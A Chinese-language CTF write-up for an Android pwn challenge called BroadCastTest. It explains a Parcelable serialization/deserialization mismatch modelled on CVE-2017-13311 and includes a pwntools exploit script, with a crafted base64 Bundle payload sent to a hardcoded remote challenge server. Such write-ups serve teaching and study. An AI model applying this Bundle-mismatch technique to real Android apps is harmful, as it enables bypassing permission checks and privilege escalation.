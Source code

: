 ## BroadCastTest
[中文](./README_zh.md) [English](./README.md)

这道题是一道android pwn
主要的漏洞点是关于序列化与反序列化不匹配的漏洞
这道题主要是由CVE-2017-13311等启发而成

可以阅读https://xz.aliyun.com/t/2364这篇文章，里面详细的说明了类似漏洞的原理

在apk中，首先读取了Base64字符串，base64deocdeo之后将其作为一个Bundle放到广播中，发送给Receiver2
Receiver2接收到广播，取出Bundle，再从Bundle里面取出key为command的值，判断是否为getflag，不是的话就可以继续广播到Receiver3
Receiver3接收到广播，取出Bundle，判断command是否为getflag，是的话就输出Congratulation

正常途径是不能绕过这个判断的，但是在apk中存在一个com.de1ta.broadcasttest.MainActivity$Message类，里面的序列化和反序列化是不匹配的

在Receiver2中判断会command是否为flag会导致Bundle进行反序列化，之后发送给Receiver3的时候会进行序列化，最后Receiver3接收到Bundle后会进行最后一次反序列化

利用漏洞，可以在Receiver2中反序列化的时候获取不到key为command的string，在序列化之后就出现了key为command，值为getflag的string，然后Receiver3的check就能通过，最终获取到flag

下面是exp
```
from pwn import *
import base64
from hashlib import sha256
import itertools
import string
context.log_level = 'debug'

def proof_of_work(chal):
    #for i in itertools.permutations(string.ascii_letters+string.digits, 4):
    for i in itertools.permutations([chr(i) for i in range(256)], 4):
        sol = ''.join(i)
        if sha256(chal + sol).digest().startswith('\0\0\0'):
            return sol


a = 'SAEAAEJOREwDAAAACAAAAG0AaQBzAG0AYQB0AGMAaAAAAAAABAAAACwAAABjAG8AbQAuAGQAZQAxAHQAYQAuAGIAcgBvAGEAZABjAGEAcwB0AHQAZQBzAHQALgBNAGEAaQBuAEEAYwB0AGkAdgBpAHQAeQAkAE0AZQBzAHMAYQBnAGUAAAAAAP////8AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAwAAAA0AAAA0AAAADQAAAAAAAAAHAAAAYwBvAG0AbQBhAG4AZAAAAAAAAAAHAAAAZwBlAHQAZgBsAGEAZwAAAAcAAABjAG8AbQBtAGEAbgBkAAAAAAAAAA0AAABQAGEAZABkAGkAbgBnAC0AVgBhAGwAdQBlAAAA'
b = base64.b64decode(a)
p = remote('206.189.186.98', 8848)
p.recvuntil('chal= ')
chal = p.recvuntil('\n')[:-1]
p.recvuntil('>>\n')
sol = proof_of_work(chal)
p.send(sol)
p.recvuntil('size')
p.sendline(str(len(b)))
p.recvuntil('please input payload:')
p.send(b)
p.interactive()
```
